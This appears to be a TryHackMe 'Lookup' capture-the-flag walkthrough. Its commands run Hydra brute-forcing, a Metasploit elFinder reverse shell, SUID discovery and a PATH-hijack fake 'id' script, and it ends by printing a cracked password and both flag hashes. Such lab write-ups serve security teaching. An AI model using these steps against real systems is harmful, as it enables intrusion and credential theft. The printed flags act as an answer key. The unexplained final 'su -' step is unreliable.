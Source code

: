 # 🔥 TryHackMe Walkthrough - Lookup

## 🚀 Enumeration

### 📂 1. Directory Bruteforcing (Gobuster)
```sh
../login.php
```

### 👥 2. User Enumeration (Custom Script)
```sh
python3 script.py
```

## 🔑 Credential Attacks

### 🔓 3. Password Bruteforcing (Hydra)
```sh
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong" -v
```
```sh
hydra -l <username> -P <password-list> <target-IP> -t <threads> <protocol>
```
#### 📌 Parameters Explained:
- `-l <username>` → Specify a single username.
- `-L <username-list>` → Use a list of usernames.
- `-p <password>` → Try a single password.
- `-P <password-list>` → Use a wordlist of passwords.
- `<target-IP>` → IP or domain of the target.
- `-t <threads>` → Number of threads (default is 16).
- `<protocol>` → Service to attack (e.g., ssh, ftp, http, etc.).

## 🌐 Subdomain Enumeration

### 📌 4. Add the new subdomain
```sh
echo "<target-IP> files.lookup.thm" >> /etc/hosts
```

## 🐚 Reverse Shell

### 🛠 5. Exploit with Metasploit
```sh
search elfinder 
set RHOST files.lookup.thm
set LHOST tun0
run
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'  # Upgrade to interactive shell
```

## 🔍 Privilege Escalation

### 🔎 6. Finding Interesting Files
```sh
ls -la /home
```
#### 📌 Observations:
- Found `.passwords` and `user.txt`, but need root privilege to access them.

### 🔥 7. Finding SUID Binaries
```sh
find / -perm /4000 2>/dev/null
```
#### 📌 Breakdown:
- `find /` → Search from root.
- `-perm /4000` → Find SUID binaries.
- `2>/dev/null` → Suppress permission errors.

### 🛠 8. Checking `/usr/sbin/pwm`
```sh
ls -la /usr/sbin/pwm
```
#### 📌 Output:
```sh
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
✅ It has root privileges!

### 🏆 9. Exploiting `pwm`
```sh
www-data@lookup:/tmp$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
```sh
id
```
#### 📌 Output:
```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 🔄 10. Manipulating `id` Command
```sh
touch /tmp/id  # Create an empty file
```
```sh
echo '#!/bin/bash' > /tmp/id  # Add shebang
```
```sh
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id  # Fake ID
```
```sh
chmod +x /tmp/id  # Make it executable
```
```sh
export PATH=/tmp:$PATH  # Prioritize our fake 'id'
```
#### ✅ Now when we type:
```sh
id
```
#### 📌 Output:
```sh
uid=1000(think) gid=1000(think) groups=1000(think)
```

### 🔑 11. Running `pwm` Again
```sh
pwm
```
✅ We now have `.passwords` file!

## 🔐 SSH Bruteforcing

### 💥 12. Using Hydra for SSH Login
```sh
hydra -l think -P passwords.txt ssh://lookup.thm
```
#### 📌 Output:
```sh
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
```

## 🎯 Capture the Flags

### 🏆 13. User Flag
```sh
cat user.txt
```
#### 📌 Output:
```sh
38375fb4dd8baa2b2039ac03d92b820e
```

### 🏅 14. Root Flag
```sh
su -
```
🔑 Password: `josemario.AKA(think)`
```sh
cat /root/root.txt
```
#### 📌 Output:
```sh
5a285a9f257e45c68bb6c9f9f57d18e8
```

🎉 **Congratulations! You have completed the room!** 🎉

---
📌 **Created by c1ph3r1337** 🕶️🔥

